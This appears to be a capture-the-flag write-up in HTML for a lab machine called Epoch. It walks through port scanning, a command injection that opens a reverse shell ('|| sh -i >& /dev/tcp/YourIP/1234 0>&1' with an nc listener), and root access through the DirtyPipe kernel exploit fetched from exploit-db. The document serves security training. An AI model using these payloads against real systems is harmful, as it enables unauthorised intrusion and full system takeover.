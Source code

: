 <h1>writeup-Epoch</h1>
<img src="./img/logo.png" alt="logo" width="700">
<blockquote><h3>
    The room description suggests tha there is a vulnerable WebApplication, So let's start the machine and check out the WebApplication.
    The room also suggests Command Injection so maybe that's the vulnerability in the WebApplication.
</h3></blockquote>
<br>

<ol>
    <li>
        <h2>Reconnaissance</h2>
        <ul>
            <li>
                <h3>Port Scanning</h3>
                <ul>
                    Rustscan result :
                    <ul>
                        <code>Open 10.10.215.48:22 - ssh</code><br>
                        <code>Open 10.10.215.48:80 - http</code>
                    </ul>
                </ul>
            </li>
            <li>
                <h3>SSH</h3>
                <ul><code>
                    OpenSSH 8.2p1 Ubuntu 4ubuntu0.4
                </code></ul>
            </li>
            <li>
                <h3>WebPage</h3>
                <ul>
                    <img src="./img/webPage.png" alt="webPage" width="500"><br>
                </ul>
            </li>
        </ul>
    </li><br>
    <li>
        <h2>Foothold</h2>
        <ul>
            <li>
                <h3>SSH</h3>
                <ul>Brute forcing ssh with hydra will definitely fail and it's not the main objective 
                    of this room so let's move on to the WebApplication.</ul>
            </li>
            <li>
                <h3>WebApplication</h3>
                <ul>
                    We will start with Command Injection because the room description suggests that.
                    Let's try some command injection tricks from <a href="https://book.hacktricks.xyz/pentesting-web/command-injection">hacktricks</a>. <br>
                    <img src="./img/webPage2.png" alt="webPage2" width="500"><br>
                    Now that we know command injection works, let's get a shell.
                    <ul>
                        <li>Step 1:
                            <ul>
                                Start a nc listener.<br>
                                <code>nc -lvnp 1234</code>
                            </ul>
                        </li>
                        <li>Step 2:
                            <ul>
                                Enter your reverse shell command in the input field with command injection vulnerability and click on <code>Convert</code>.<br>
                                <code>|| sh -i >& /dev/tcp/YourIP/1234 0>&1</code><br>
                                You will get a reverse shell.
                            </ul>
                        </li>
                    </ul>
                    <h3>
                        You can find your flag hidden in enviorment variables.
                    </h3>
                </ul>
            </li>
        </ul>
    </li>
    <li>
        <h2>Root</h2>
        <ul>
            <li>
                <h3>Things i tried and didn't work :</h3>
                <ol>
                    <li>
                        <code>sudo -l</code>
                        <ul>
                            <code>sh: 2: sudo: not found</code>
                        </ul>
                    </li>
                    <li>
                        <code>find / -type f -perm -04000 2>/dev/null</code>
                        <ul>Nothing intresting here</ul>
                    </li>
                    <li>
                        crontab
                        <ul>
                            <code>No such file or directory</code>
                        </ul>
                    </li>
                </ol>
            </li>
            <li>
                <h3>Thing that did work :</h3>
                <ul>
                    <code>uname -a</code> will show you that this machine is running on <code>linux kernel version 5</code> which might be vulnerable to <code>DirtyPipe</code>.
                    So heres how we will exploit that.
                    <li>
                        Step 1:
                        <ul>Download <a href="https://www.exploit-db.com/exploits/50808">DirtyPipe</a> exploit code on your local machine.</ul>
                    </li>
                    <li>
                        Step 2:
                        <ul>Start python server on your machine and download the exploit on target machine in <code>/tmp</code> directory.</ul>
                    </li>
                    <li>
                        step 3:
                        <ul>
                            compile and execute the executable using <code>gcc</code>.
                        </ul>
                    </li>
                </ul>
                <img src="./img/root.png" alt="root" width="500">
            </li>
        </ul>
    </li><br>
</ol>